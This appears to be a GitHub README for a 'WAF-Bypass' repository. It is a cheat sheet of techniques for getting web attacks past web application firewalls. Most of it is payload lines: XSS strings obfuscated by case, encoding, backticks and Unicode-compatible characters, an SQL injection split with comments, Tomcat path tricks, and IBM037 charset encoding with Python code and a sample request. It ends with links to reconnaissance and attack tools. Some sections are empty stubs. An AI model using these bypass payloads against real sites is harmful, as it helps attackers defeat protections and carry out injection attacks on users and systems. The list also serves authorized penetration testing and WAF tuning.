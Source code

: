<h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/WAF-Bypass">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/WAF-Bypass">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>


# WAF-Bypass
🔥 Web application firewalls (WAFs) bypass


## Bypassing WAFs

### 1.Regex Bypasses
Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at PayloadsAllTheThings and OWASP.

```
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
```


## 2.Obfuscation
While obfuscation is a possible way to bypass regex, they have been divided into different sections to showcase more exclusively a selection of obfuscation techniques.



```
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```



```
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```


## 3.Charset Encoding
This technique involves modifying the Content-Type header to use a different charset (e.g. ibm500). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python


```
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```



## 4.Unicode Compatability
Depending on the implementation of Unicode normalization, characters that share Unicode compatability may be able to bypass the WAF and execute as the intended payload.

```
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```


## 5. Content Size
In some cloud-based WAFs, the request won’t be checked if the payload exceeds a certain size. In these scenarios, it is possible to bypass the firewall by increasing the size of the request body or URL.



## 11. Uninitialized Variables Technique




## Tools
* [w3af](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework

* [wafw00f](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall

* [BypassWAF](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) – Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain.

* [CloudFail](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.



